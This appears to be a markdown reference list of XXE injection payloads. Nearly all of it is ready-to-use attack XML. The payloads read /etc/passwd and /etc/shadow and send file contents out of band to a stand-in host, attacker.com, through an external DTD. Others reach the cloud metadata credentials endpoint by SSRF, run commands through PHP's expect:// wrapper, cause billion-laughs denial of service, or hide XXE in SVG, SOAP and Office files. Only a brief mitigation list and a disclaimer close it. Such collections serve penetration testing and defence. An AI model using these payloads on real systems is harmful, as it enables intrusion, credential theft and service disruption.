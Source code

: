 # XML External Entity (XXE) Injection Payload Examples

Below are various XXE payload examples demonstrating different attack scenarios and techniques.

## Basic XXE Payload

```xml
<!-- Basic XXE reading local file -->
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

## Out-of-Band (OOB) XXE Payloads

### 1. Simple OOB Data Exfiltration

```xml
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

Where `evil.dtd` contains:
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?exfiltrated=%file;'>">
%all;
```

### 2. OOB with Parameter Entities

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%xxe;'>">
  %eval;
  %exfiltrate;
]>
<foo>test</foo>
```

## Local DTD Inclusion (Advanced XXE)

```xml
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
  <!ENTITY % custom_entity '
    <!ENTITY &#x25; file SYSTEM "file:///etc/shadow">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
```

## XXE for SSRF (Server Side Request Forgery)

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<foo>&xxe;</foo>
```

## Blind XXE Detection Payload

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%xxe;'>">
  %eval;
  %error;
]>
<foo>test</foo>
```

## XXE for PHP Expect Wrapper (RCE)

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<foo>&xxe;</foo>
```

## XXE to Retrieve Windows Files

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<foo>&xxe;</foo>
```

## Base64 Encoded XXE

```xml
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<foo>&send;</foo>
```

## XXE for Denial of Service (Billion Laughs)

```xml
<!DOCTYPE foo [
  <!ENTITY lol0 "lol">
  <!ENTITY lol1 "&lol0;&lol0;&lol0;&lol0;&lol0;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<foo>&lol9;</foo>
```

## XXE in SVG Files

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

## XXE in SOAP Requests

```xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <!DOCTYPE foo [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <getUser>
      <userId>&xxe;</userId>
    </getUser>
  </soap:Body>
</soap:Envelope>
```

## XXE in DOCX/PPTX/XLSX Files

Modify `[Content_Types].xml` in the Office document:
```xml
<!DOCTYPE Types [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types">
  &xxe;
</Types>
```

## XXE in XInclude

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

## Mitigation Recommendations

1. Disable DTD processing completely
2. Use whitelist-based input validation
3. Implement SAST/DAST tools to detect XXE vulnerabilities
4. Use simpler data formats like JSON when possible
5. Keep XML processors updated to latest versions

**Note:** These payloads are for educational and defensive security purposes only. Unauthorized testing against systems you don't own is illegal.